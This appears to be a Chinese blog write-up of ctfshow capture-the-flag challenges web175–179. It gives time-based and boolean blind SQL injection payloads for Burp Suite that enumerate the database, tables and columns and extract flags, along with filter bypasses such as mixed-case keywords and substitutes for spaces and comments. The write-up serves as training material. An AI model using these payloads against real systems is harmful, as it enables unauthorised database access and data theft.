<h2 id="解题-79"><a href="#解题-79" class="headerlink" title="解题"></a>解题</h2><p>这次采用脚本爆破时间盲注的时候，死后爆不出来。或者说爆破的结果与实际数值总是有出入。于是想到了昨天解题的时候采用的Bp爆破。</p>
<p>burp布尔盲注的时候是不用配置什么东西的，但是进行时间盲注的时候还是得配置一下。</p>
<ol>
<li><p>首先限制配置的时间，也就是得到正确答案的缓冲时间：5s</p>
</li>
<li><p>其次，配置BP如下：(参考链接<a target="_blank" rel="noopener" href="https://blog.csdn.net/weixin_44094420/article/details/132740701#:~:text=%E8%80%8C%E6%83%B3%E8%A6%81%E4%BD%BF%E7%94%A8bp%E5%88%A4%E6%96%AD%E6%97%B6%E9%97%B4%E7%9B%B2%E6%B3%A8%EF%BC%8C%E5%88%99%E9%9C%80%E8%A6%81%E6%9B%B4%E6%94%B9%E4%B8%80%E4%BA%9B%E8%AE%BE%E7%BD%AE%20%E9%A6%96%E5%85%88%E6%98%AFbp%E4%B8%BB%E7%95%8C%E9%9D%A2%E7%9A%84%E9%A1%B9%E7%9B%AE%E9%80%89%E9%A1%B9%EF%BC%88project%20options%EF%BC%89,%E5%B0%86%E8%B6%85%E6%97%B6%E8%BF%99%E4%B8%AA%E6%A0%87%E5%87%86%E6%94%B9%E5%B0%8F%EF%BC%8C%E8%BF%99%E4%B8%AA%E6%A0%87%E5%87%86%E7%9A%84%E6%84%8F%E6%80%9D%E6%98%AF%EF%BC%8C%E7%88%86%E7%A0%B4%E6%97%B6%E8%AF%B7%E6%B1%82%E6%97%B6%E9%97%B4%E8%B6%85%E8%BF%87%E8%BF%99%E4%B8%AA%E6%A0%87%E5%87%86%E6%97%B6%E9%97%B4%EF%BC%8C%E7%BB%93%E6%9E%9C%E9%87%8C%E5%B0%B1%E4%B8%8D%E4%BC%9A%E6%98%BE%E7%A4%BA%E4%BA%86%20%E6%89%80%E4%BB%A5%E8%BF%99%E4%B8%AA%E6%A0%87%E5%87%86%E9%9C%80%E8%A6%81%E6%A0%B9%E6%8D%AE%E4%B8%AA%E4%BA%BA%E7%94%B5%E8%84%91%E6%83%85%E5%86%B5%E6%9D%A5%E8%AE%BE%E7%BD%AE%20%E9%9C%80%E8%A6%81%E4%BD%8E%E4%BA%8E%E4%BD%A0%E8%AE%BE%E7%BD%AE%E7%9A%84sleep%E6%8B%AC%E5%8F%B7%E9%87%8C%E7%9A%84%E5%80%BC%EF%BC%88%E6%89%80%E4%BB%A5%E4%BD%A0%E7%9A%84sleep%E5%88%AB%E8%AE%BE%E5%A4%AA%E7%9F%AD%EF%BC%89">点我</a>)</p>
<p>这个是获取关键的注入数据包，这个数据包的url可以在 浏览器的<code>网络</code> 模块抓包部分获得，也就是你选择那个测试5后选择搜索， <code>网络</code> 模块会出现对应的数据包，观察URL并且截获下来修改即可。</p>
<p></p>
<p>获取到数据包后，转发到测试器</p>
<p></p>
<p></p>
<p>下面的小ASCII字典是要自己配置的，后面爆破的时候要注意：</p>
<p></p>
<p></p>
<p>到这里，时间盲注的BP环境算是配置好了。</p>
</li>
<li><p>进行时间盲注</p>
</li>
</ol>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">#时间盲注的语句如下：</span><br><span class="line"><span class="keyword">get</span>(这个是<span class="keyword">get</span>部分爆破的地方)</span><br><span class="line">AsciiDict(这是ascii字典)</span><br><span class="line">##如果不在意这点时间消耗，直接上大的ascii字典也行。</span><br><span class="line"><span class="string">&#x27;,abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ`-&#123;&#125;_~0123456789|$!&quot;#%&amp;\&#x27;</span>()<span class="operator">*</span><span class="operator">+</span>.<span class="operator">/</span>:;<span class="operator">&lt;=&gt;</span>?@[\\]<span class="operator">^</span> <span class="string">&#x27;</span></span><br><span class="line"><span class="string">##这次是无论是不是1都是回显错误，用什么数字其实没啥好在意的，但用1比较保险。</span></span><br><span class="line"><span class="string"></span></span><br><span class="line"><span class="string">#获取当前数据库</span></span><br><span class="line"><span class="string">get: 1&#x27;</span><span class="keyword">and</span> if(<span class="built_in">substring</span>(database(),&#123;<span class="number">1</span>&#125;,<span class="number">1</span>)<span class="operator">=</span><span class="string">&#x27;&#123;2&#125;&#x27;</span>,sleep(<span class="number">5</span>),<span class="number">0</span>)<span class="comment">-- -																					&#x27;</span></span><br><span class="line">AsciiDict: abcdefghijklmnopqrstuvwxyz0123456789_</span><br><span class="line">##解释：</span><br><span class="line">##拆分出来的是这样子的：<span class="number">1</span><span class="string">&#x27;and ???-- -</span></span><br><span class="line"><span class="string">and左右边都是判断用的，只有全true才true。但这大重要，&#x27;</span><span class="comment">-- -&#x27;这几个横线是数据库注释用的</span></span><br><span class="line">##其中的<span class="string">&#x27;???&#x27;</span>部分放置的是 <span class="string">&#x27;if(substring(database(),&#123;1&#125;,1)=&#x27;</span>&#123;<span class="number">2</span>&#125;<span class="string">&#x27;,sleep(5),0)&#x27;</span></span><br><span class="line">### if(xxx,sleep(<span class="number">5</span>),<span class="number">0</span>) <span class="operator">-</span> 如果xxx为正确的结果，得到了<span class="literal">true</span>，就使用sleep延迟<span class="number">5</span>s，如果不是<span class="literal">true</span>则不延迟直接回显。</span><br><span class="line">### <span class="built_in">substring</span>(database(),&#123;<span class="number">1</span>&#125;,<span class="number">1</span>)<span class="operator">=</span><span class="string">&#x27;&#123;2&#125;&#x27;</span> <span class="operator">-</span> 切割字符串，database()获取数据库名后，裁切出第&#123;<span class="number">1</span>&#125;位的第<span class="number">1</span>个字符，看看该字符是否等于<span class="string">&#x27;&#123;2&#125;&#x27;</span></span><br><span class="line">### &#123;<span class="number">1</span>&#125;&#123;<span class="number">2</span>&#125; <span class="operator">-</span> 这两个是爆破点</span><br><span class="line">## 获取结果的办法：看下面</span><br><span class="line">## 后面的原理和上面这个差不多，就不过多赘述了</span><br></pre></td></tr></table></figure>


<p></p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">#获取当前数据库</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and if(substring(database(),&#123;1&#125;,1)=&#x27;</span>&#123;<span class="number">2</span>&#125;<span class="string">&#x27;,sleep(5),0)-- -																					&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)</span><br><span class="line">AsciiDict: abcdefghijklmnopqrstuvwxyz0123456789_</span><br><span class="line">#ctfshow_web</span><br><span class="line"></span><br><span class="line">#获取数据库对应的数据表</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and if(substring((select group_concat(table_name) from information_schema.tables where table_schema=database()),&#123;1&#125;,1)=&#x27;</span>&#123;<span class="number">2</span>&#125;<span class="string">&#x27;,sleep(5),0)-- -																				&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)</span><br><span class="line">AsciiDict: ,abcdefghijklmnopqrstuvwxyz0123456789_</span><br><span class="line">#ctfshow_user5</span><br><span class="line"></span><br><span class="line">#获取对应表字段</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and if(substring((select GROUP_CONCAT(column_name) from information_schema.columns where table_name=&#x27;</span>ctfshow_user5<span class="string">&#x27;),&#123;1&#125;,1)=&#x27;</span>&#123;<span class="number">2</span>&#125;<span class="string">&#x27;,sleep(5),0)-- -																					&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)</span><br><span class="line">AsciiDict: ,abcdefghijklmnopqrstuvwxyz0123456789_</span><br><span class="line">#id,username,password</span><br><span class="line"></span><br><span class="line">#获取flag的内容</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and if(substring((select password from ctfshow_web.ctfshow_user5 limit 24,1),1,1)=&#x27;</span>p<span class="string">&#x27;,sleep(5),0)-- -																					&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)</span><br><span class="line">AsciiDict: ,abcdefghijklmnopqrstuvwxyz0123456789_</span><br><span class="line">#ctfshow&#123;<span class="number">3</span>b0ab6f4<span class="operator">-</span>f068<span class="number">-423</span>c<span class="number">-8e8</span>e<span class="operator">-</span>c064327941f6&#125;</span><br></pre></td></tr></table></figure>

<p>这就是测试的全部了。</p>
<p>讲真，Python的request的流量特征绝对是被拦截了。因为官方说了要手注，多多少少还是有点限制的。</p>
<p>这里不考虑怎么去绕过限制，得到flag就行了。</p>
<h2 id="总结-3"><a href="#总结-3" class="headerlink" title="总结"></a>总结</h2><p>时间盲注，输出的字符串限制。</p>
<h1 id="web176-换模式限制输入"><a href="#web176-换模式限制输入" class="headerlink" title="web176-换模式限制输入"></a>web176-换模式限制输入</h1><h2 id="原始信息-85"><a href="#原始信息-85" class="headerlink" title="原始信息"></a>原始信息</h2><p>使用sqlmap是没有灵魂的</p>
<p>查询语句：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select id,username,password from ctfshow_user where username !=&#x27;flag&#x27; and id = &#x27;&quot;</span>.<span class="variable">$_GET</span>[<span class="string">&#x27;id&#x27;</span>].<span class="string">&quot;&#x27; limit 1;&quot;</span>;</span><br></pre></td></tr></table></figure>

<p>返回逻辑：</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line"><span class="comment">//对传入的参数进行了过滤</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">   <span class="comment">//代码过于简单，不宜展示</span></span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>


<h2 id="解题-80"><a href="#解题-80" class="headerlink" title="解题"></a>解题</h2><p>这次过滤的重点是输入，不是输出（没明写，具体测测再说）</p>
<p>先进行一下测试：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line">#首先，接口的地址变了：http:<span class="operator">/</span><span class="operator">/</span>xxxxxxxx<span class="operator">-</span>xxxx<span class="operator">-</span>xxxx<span class="operator">-</span>xxxx<span class="operator">-</span>xxxxxxxxxxxx.challenge.ctf.show<span class="operator">/</span>api<span class="operator">/</span>?id<span class="operator">=</span><span class="number">1</span><span class="operator">&amp;</span>page<span class="operator">=</span><span class="number">1</span><span class="operator">&amp;</span>limit<span class="operator">=</span><span class="number">10</span></span><br><span class="line">#注点依然是id</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;order by 3-- -																																			&#x27;</span></span><br><span class="line"><span class="keyword">return</span>:&#123;&quot;code&quot;:<span class="number">0</span>,&quot;msg&quot;:&quot;查询成功&quot;,&quot;count&quot;:<span class="number">1</span>,&quot;data&quot;:[&#123;&quot;id&quot;:&quot;1&quot;,&quot;username&quot;:&quot;admin&quot;,&quot;password&quot;:&quot;admin&quot;&#125;]&#125;</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;order by 3-- -																																			&#x27;</span></span><br><span class="line"><span class="keyword">return</span>: 空页面</span><br><span class="line">#如果是BP，这里就有一个判断点了：内容长度</span><br><span class="line"></span><br><span class="line">#接下来是按部就班的想办法注入</span><br><span class="line">#&#123;<span class="number">1</span>&#125;是数值注入点，&#123;<span class="number">2</span>&#125;是Ascii注入点。</span><br><span class="line">#实验了下联合注入<span class="keyword">union</span>，无法直接获取。或者说直接报错。</span><br><span class="line">#<span class="number">1.</span>获取数据库</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and(if(substring(database(),&#123;1&#125;,1)=&#x27;</span>&#123;<span class="number">2</span>&#125;<span class="string">&#x27;,0,1))-- -																				&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)</span><br><span class="line">StrDict: abcdefghijklmnopqrstuvwxyz0123456789_</span><br><span class="line"><span class="keyword">return</span>: ctfshow_web</span><br><span class="line">##这个就是依据BP的回显了，BP的配置在上一道题目中，但是判断依据变成了长度。</span><br><span class="line">##所以说之前的配置记得复原，这次就不是延迟注入了哦</span><br><span class="line">##结果是从bp上拼接出来的</span><br><span class="line"></span><br><span class="line">#<span class="number">2.</span>获取数据表</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and(if(substring((select(concat(table_name)from(information_schema.tables)where(table_schema=&#x27;</span>ctfshow_web<span class="string">&#x27;))),1,1)=&#x27;</span>c<span class="string">&#x27;,0,1))-- -																				&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)</span><br><span class="line">StrDict: abcdefghijklmnopqrstuvwxyz0123456789_</span><br><span class="line"><span class="keyword">return</span>: (空页面)</span><br><span class="line">##上面写了有waf，说过于简单，测试双拼写：<span class="keyword">select</span><span class="operator">-</span><span class="operator">&gt;</span>selselectect</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and(if(substring(&#x27;</span>selselectect<span class="string">&#x27;,1,1)=&#x27;</span>s<span class="string">&#x27;,1,0))-- -																		&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)									</span><br><span class="line"><span class="keyword">return</span>: &#123;&quot;code&quot;:<span class="number">0</span>,&quot;msg&quot;:&quot;查询成功&quot;,&quot;count&quot;:<span class="number">1</span>,&quot;data&quot;:[&#123;&quot;id&quot;:&quot;1&quot;,&quot;username&quot;:&quot;admin&quot;,&quot;password&quot;:&quot;admin&quot;&#125;]&#125;</span><br><span class="line">##测试没有双拼的时候：<span class="keyword">select</span></span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and(if(substring(&#x27;</span><span class="keyword">select</span><span class="string">&#x27;,1,1)=&#x27;</span>s<span class="string">&#x27;,1,0))																					&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)									</span><br><span class="line"><span class="keyword">return</span>: &#123;&quot;code&quot;:<span class="number">0</span>,&quot;msg&quot;:&quot;查询失败&quot;,&quot;count&quot;:<span class="number">1</span>,&quot;data&quot;:[]&#125; </span><br><span class="line">##查询失败，意思就是结果<span class="keyword">select</span>没了。前面的<span class="keyword">and</span>和if、字符串分割都是测试过的，没有问题。否则不可能测出ctfshow_web</span><br><span class="line">##测出了锁死一个<span class="keyword">select</span>，难怪说waf简单……</span><br><span class="line">##仔细勘测能发现<span class="keyword">select</span>应该是关键字锁死，可以使用大小写绕过。Mysql执行命令使用大小是没区别的。</span><br><span class="line">下面是获取数据表的部分：</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and(if((substring((selEct(group_concat(table_name))from(information_schema.tables)where(table_schema=&#x27;</span>ctfshow_web<span class="string">&#x27;)),&#123;1&#125;,1)=&#x27;</span>&#123;<span class="number">2</span>&#125;<span class="string">&#x27;),1,0))-- -								&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)		</span><br><span class="line">StrDict: abcdefghijklmnopqrstuvwxyz0123456789_</span><br><span class="line"><span class="keyword">return</span>: ctfshow_user</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">#<span class="number">3.</span>获取表格的字段</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and(if((substring((selEct(group_concat(column_name))from(information_schema.columns)where(table_name=&#x27;</span>ctfshow_user<span class="string">&#x27;)),&#123;1&#125;,1)=&#x27;</span>&#123;<span class="number">2</span>&#125;<span class="string">&#x27;),1,0))-- -								&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)	</span><br><span class="line">StrDict: abcdefghijklmnopqrstuvwxyz0123456789_,</span><br><span class="line"><span class="keyword">return</span>: id,username,password</span><br><span class="line"></span><br><span class="line"></span><br><span class="line">#<span class="number">4.</span>获取内容</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and if(substring((Select(password)from(ctfshow_user)limit 21,1),&#123;1&#125;,1)=&#x27;</span>&#123;<span class="number">2</span>&#125;<span class="string">&#x27;,1,0)-- - 									&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)	</span><br><span class="line">StrDict: abcdefghijklmnopqrstuvwxyz0123456789_,<span class="operator">-</span>&#123;&#125;</span><br><span class="line"><span class="keyword">return</span>: ctfshow&#123;<span class="number">62</span>f52cb8<span class="number">-69</span>dd<span class="operator">-</span>bf4b<span class="number">-232</span>c53c14553&#125;</span><br></pre></td></tr></table></figure>

<h2 id="总结-4"><a href="#总结-4" class="headerlink" title="总结"></a>总结</h2><ol>
<li>大小写绕过：限制输入的字符串 <code>select</code> ,从观察看应该是限制了这个小写格式的，大小写混写时就能直接绕过了。</li>
<li>注入方法：布尔盲注，堆叠注入等。</li>
</ol>
<p>无法直接跑脚本的情况都是和BP结合使用的。</p>
<h1 id="web177"><a href="#web177" class="headerlink" title="web177"></a>web177</h1><h2 id="原始信息-86"><a href="#原始信息-86" class="headerlink" title="原始信息"></a>原始信息</h2><p>使用sqlmap是没有灵魂的</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">查询语句</span><br><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select id,username,password from ctfshow_user where username !=&#x27;flag&#x27; and id = &#x27;&quot;</span>.<span class="variable">$_GET</span>[<span class="string">&#x27;id&#x27;</span>].<span class="string">&quot;&#x27; limit 1;&quot;</span>;</span><br><span class="line">      </span><br><span class="line"></span><br><span class="line">返回逻辑</span><br><span class="line"><span class="comment">//对传入的参数进行了过滤</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">   <span class="comment">//代码过于简单，不宜展示</span></span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>


<h2 id="解题-81"><a href="#解题-81" class="headerlink" title="解题"></a>解题</h2><p>经过测试，这次过滤的部分如下：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"><span class="comment">-- :过滤掉了注释，换成%23（#）</span></span><br><span class="line">这次并没有过滤<span class="keyword">select</span></span><br></pre></td></tr></table></figure>

<p>使用布尔注入解题：</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"># 这次的观察点依然是回显数据的长度，爆破工具使用BP</span><br><span class="line">#<span class="number">1.</span>获取数据库</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and(if(substring(database(),&#123;1&#125;,1)=&#x27;</span>&#123;<span class="number">2</span>&#125;<span class="string">&#x27;,1,0))%23																							&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)	</span><br><span class="line">StrDict: abcdefghijklmnopqrstuvwxyz0123456789_</span><br><span class="line"><span class="keyword">return</span>: ctfshow_web</span><br><span class="line"></span><br><span class="line">#<span class="number">2.</span>获取数据表</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and(if(substring((select(group_concat(table_name))from(information_schema.tables)where(table_schema=&#x27;</span>ctfshow_web<span class="string">&#x27;)),&#123;1&#125;,1)=&#x27;</span>&#123;<span class="number">2</span>&#125;<span class="string">&#x27;,1,0))%23								&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)	</span><br><span class="line">StrDict: abcdefghijklmnopqrstuvwxyz0123456789_,</span><br><span class="line"><span class="keyword">return</span>: ctfshow_user</span><br><span class="line"></span><br><span class="line">#<span class="number">3.</span>获取表字段</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and(if(substring((select(group_concat(column_name))from(information_schema.columns)where(table_name=&#x27;</span>ctfshow_user<span class="string">&#x27;)),&#123;1&#125;,1)=&#x27;</span>&#123;<span class="number">2</span>&#125;<span class="string">&#x27;,1,0))%23								&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)	</span><br><span class="line">StrDict: ,abcdefghijklmnopqrstuvwxyz0123456789_</span><br><span class="line"><span class="keyword">return</span>: id,username,password</span><br><span class="line"></span><br><span class="line">#<span class="number">4.</span>获取字段内容</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and(if(substring((select(password)from(ctfshow_user)limit/**/21,1),&#123;1&#125;,1)=&#x27;</span>&#123;c&#125;<span class="string">&#x27;,1,0))%23								&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)	</span><br><span class="line">StrDict: abcdefghijklmnopqrstuvwxyz0123456789&#123;&#125;<span class="operator">-</span></span><br><span class="line"><span class="keyword">return</span>: ctfshow&#123;<span class="number">96</span>ed9762<span class="number">-2710</span><span class="number">-4</span>ce8<span class="operator">-</span>a7df<span class="number">-13</span>fdae9494b4&#125;</span><br></pre></td></tr></table></figure>

<h2 id="总结-5"><a href="#总结-5" class="headerlink" title="总结"></a>总结</h2><p>过滤Mysql的 <code>--</code> 注释，没有过滤 <code>select</code>    .</p>
<p>空格需要使用 <code>/**/</code> 替代。</p>
<p>​                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           </p>
<h1 id="web178"><a href="#web178" class="headerlink" title="web178"></a>web178</h1><h2 id="原始信息-87"><a href="#原始信息-87" class="headerlink" title="原始信息"></a>原始信息</h2><p>使用Sqlmap是没有灵魂的</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">查询语句</span><br><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select id,username,password from ctfshow_user where username !=&#x27;flag&#x27; and id = &#x27;&quot;</span>.<span class="variable">$_GET</span>[<span class="string">&#x27;id&#x27;</span>].<span class="string">&quot;&#x27; limit 1;&quot;</span>;</span><br><span class="line">      </span><br><span class="line">返回逻辑</span><br><span class="line"><span class="comment">//对传入的参数进行了过滤</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">   <span class="comment">//代码过于简单，不宜展示</span></span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>


<h2 id="解题-82"><a href="#解题-82" class="headerlink" title="解题"></a>解题</h2><figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"># <span class="number">1.</span>查库</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and(if(substring(database(),&#123;1&#125;,1)=&#x27;</span>&#123;<span class="number">2</span>&#125;<span class="string">&#x27;,1,0))%23																							&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)	</span><br><span class="line">StrDict: abcdefghijklmnopqrstuvwxyz0123456789_</span><br><span class="line"><span class="keyword">return</span>: ctfshow_web</span><br><span class="line"></span><br><span class="line"># <span class="number">2.</span>查表</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and(if(substring((select(table_name)from(information_schema.tables)where(table_schema=&#x27;</span>ctfshow_web<span class="string">&#x27;)),&#123;1&#125;,1)=&#x27;</span>&#123;<span class="number">2</span>&#125;<span class="string">&#x27;,1,0))%23 									&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)	</span><br><span class="line">StrDict: abcdefghijklmnopqrstuvwxyz0123456789_</span><br><span class="line"><span class="keyword">return</span>: ctfshow_user</span><br><span class="line"></span><br><span class="line"># <span class="number">3.</span>查字段</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and(if(substring((select(group_concat(column_name))from(information_schema.columns)where(table_name=&#x27;</span>ctfshow_user<span class="string">&#x27;)),&#123;1&#125;,1)=&#x27;</span>&#123;<span class="number">2</span>&#125;<span class="string">&#x27;,1,0))%23 									&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)	</span><br><span class="line">StrDict: abcdefghijklmnopqrstuvwxyz0123456789_,</span><br><span class="line"><span class="keyword">return</span>: id,username,password</span><br><span class="line"></span><br><span class="line"># <span class="number">4.</span>查内容</span><br><span class="line">##这次需要先查username再查password核验字段位置，根据已有的password内容去计算flag所在的位置。</span><br><span class="line">#因为禁用空格和<span class="operator">/</span> ，limit不能用了。</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and(if(substring((select(group_concat(password))from(ctfshow_user)),248,1)=&#x27;</span>,<span class="string">&#x27;,1,0))%23 												&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)	</span><br><span class="line">StrDict: abcdefghijklmnopqrstuvwxyz0123456789<span class="operator">-</span>&#123;&#125;_,</span><br><span class="line"><span class="keyword">return</span>: ctfshow&#123;d0e47721<span class="operator">-</span>d77d<span class="number">-4723</span><span class="number">-9260</span><span class="operator">-</span>b33ab076438c&#125;</span><br></pre></td></tr></table></figure>

<p>这次过滤(仅限测出来的):</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"><span class="operator">=</span><span class="operator">&gt;</span>  <span class="operator">/</span> 空格 </span><br></pre></td></tr></table></figure>

<p>没查出有没有什么关键字的过滤，布尔盲注用的有点插科打诨的感觉。</p>
<h2 id="结果"><a href="#结果" class="headerlink" title="结果"></a>结果</h2><p>布尔盲注直接绕过，因为控制了空格和正斜杠导致无法直接使用limit进行分割，需要根据已有信息区算出flag所在位置，避免出现杂乱数据的情况。</p>
<p>或者说避免出现无用数据的情况。</p>
<p>在SQL注入中，可以选择其它字符代替空格，制表符也行。</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">%<span class="number">09</span>	制表符的Url形式</span><br></pre></td></tr></table></figure>


<h1 id="web179"><a href="#web179" class="headerlink" title="web179"></a>web179</h1><h2 id="原始信息-88"><a href="#原始信息-88" class="headerlink" title="原始信息"></a>原始信息</h2><p>使用sqlmap是没有灵魂的</p>
<figure class="highlight php"><table><tr><td class="code"><pre><span class="line">查询语句</span><br><span class="line"></span><br><span class="line"><span class="comment">//拼接sql语句查找指定ID用户</span></span><br><span class="line"><span class="variable">$sql</span> = <span class="string">&quot;select id,username,password from ctfshow_user where username !=&#x27;flag&#x27; and id = &#x27;&quot;</span>.<span class="variable">$_GET</span>[<span class="string">&#x27;id&#x27;</span>].<span class="string">&quot;&#x27; limit 1;&quot;</span>;</span><br><span class="line">      </span><br><span class="line"></span><br><span class="line">返回逻辑</span><br><span class="line"></span><br><span class="line"><span class="comment">//对传入的参数进行了过滤</span></span><br><span class="line">  <span class="function"><span class="keyword">function</span> <span class="title">waf</span>(<span class="params"><span class="variable">$str</span></span>)</span>&#123;</span><br><span class="line">   <span class="comment">//代码过于简单，不宜展示</span></span><br><span class="line">  &#125;</span><br></pre></td></tr></table></figure>

<h2 id="解题-83"><a href="#解题-83" class="headerlink" title="解题"></a>解题</h2><p>没猜错应该还是限制不到布尔注入。</p>
<figure class="highlight sql"><table><tr><td class="code"><pre><span class="line"># <span class="number">1.</span>获取数据库</span><br><span class="line"><span class="keyword">Get</span>: <span class="number">1</span><span class="string">&#x27;and(if(substring(database(),&#123;1&#125;,1)=&#x27;</span>&#123;<span class="number">2</span>&#125;<span class="string">&#x27;,1,0))%23														 												&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)	</span><br><span class="line">StrDict: abcdefghijklmnopqrstuvwxyz0123456789_</span><br><span class="line"><span class="keyword">return</span>: ctfshow_web</span><br><span class="line"></span><br><span class="line"># <span class="number">2.</span>获取数据表</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and(if(substring((select(group_concat(table_name))from(information_schema.tables)where(table_schema=&#x27;</span>ctfshow_web<span class="string">&#x27;)),&#123;1&#125;,1)=&#x27;</span>&#123;<span class="number">2</span>&#125;<span class="string">&#x27;,1,0))%23														 												&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)	</span><br><span class="line">StrDict: abcdefghijklmnopqrstuvwxyz0123456789_,</span><br><span class="line"><span class="keyword">return</span>: ctfshow_user</span><br><span class="line"></span><br><span class="line"># <span class="number">3.</span>获取表字段</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and(if(substring((select(group_concat(column_name))from(information_schema.columns)where(table_name=&#x27;</span>ctfshow_user<span class="string">&#x27;)),1,1)=&#x27;</span>i<span class="string">&#x27;,1,0))%23													 												&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)	</span><br><span class="line">StrDict: abcdefghijklmnopqrstuvwxyz0123456789_,</span><br><span class="line"><span class="keyword">return</span>: id,username,password</span><br><span class="line"></span><br><span class="line"># <span class="number">4.</span>获取字段内容</span><br><span class="line"><span class="keyword">get</span>: <span class="number">1</span><span class="string">&#x27;and(if(substring((select(group_concat(password))from(ctfshow_user)),&#123;1&#125;,1)=&#x27;</span>&#123;<span class="number">2</span>&#125;<span class="string">&#x27;,1,0))%23																 												&#x27;</span>(保持色准用的，别把我这个单引号粘贴进去了)</span><br><span class="line">#这里的&#123;<span class="number">1</span>&#125;使用<span class="number">248</span>比较妥帖些</span><br><span class="line">StrDict: abcdefghijklmnopqrstuvwxyz0123456789_,<span class="operator">-</span>&#123;&#125;</span><br><span class="line"><span class="keyword">return</span>: ctfshow&#123;d01cbc05<span class="number">-672e-4</span>fc5<span class="number">-80e8</span><span class="operator">-</span>c8cfeff20a39&#125;</span><br></pre></td></tr></table></figure>

<h2 id="结论"><a href="#结论" class="headerlink" title="结论"></a>结论</h2><p>限制的字符在增加，但是没有限制关键字，依然使用布尔盲注。</p>
<p>可以使用其它字符代替空格：<code>%0c</code> .</p>
